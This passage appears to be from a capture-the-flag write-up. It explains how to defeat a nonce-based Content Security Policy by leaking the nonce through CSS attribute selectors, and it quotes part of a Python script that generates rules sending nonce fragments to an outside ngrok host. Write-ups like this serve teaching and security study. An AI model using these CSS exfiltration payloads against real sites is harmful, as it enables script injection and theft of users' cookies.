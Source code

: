 # Bypassing CSP Through CSS Leak

The application implements a CSP that includes a nonce to prevent arbitrary JavaScript execution. To bypass this, we must obtain the nonce value. We can acquire the nonce by employing the Trigrams CSS Leak technique. Why trigrams? Because this approach is faster than regular CSS leak techniques, which is crucial given the bot's limited lifespan. The configuration can be found here:

```javascript
        await page.setCookie({
			name: 'flag',
			value: FLAG,
			domain: new URL(APP_URL).hostname,
            httponly: false
		});
        await page.goto(url, { timeout: 2 * 1000, waitUntil: 'networkidle2' })
        await sleep(10000)
```

According to the article at

<https://waituck.sg/2023/12/11/0ctf-2023-newdiary-writeup.html> , we can use the following script to perform a CSS leak and obtain the nonce:

```python
#!/usr/bin/env python3

import itertools

URL = "http://8.tcp.ngrok.io:15484"

TEMPLATE_START = '''*{display:block} script[nonce^="%s"]{
    --props_%s: url(%s?START=%s);
}
'''

TEMPLATE_MATCH = '''*{display:block} script[nonce*="%s"]{
    --prop_%s: url(%s?MATCH=%s);
}
'''

TEMPLATE_END = '''*{display:block} script[nonce$="%s"]{
    --prope_%s: url(%s?END=%s);
}
'''

TEMPLATE_META =  '''*{display:block} meta[content*="%s"]{
    --prop_%s: url(%s?MATCH=%s);
}
'''

TEMPLATE_BACKGROUND_SCRIPT = '''*{display:block} script[nonce]{
    background: %s;
}
'''

TEMPLATE_BACKGROUND_META = '''*{display:block} meta[content]{
    background: %s;
}
'''

CHARSET = "abcdefghijklmnopqrstuvwxyz0123456789"

CSS_DIR = "static/css"

all_css = ""
```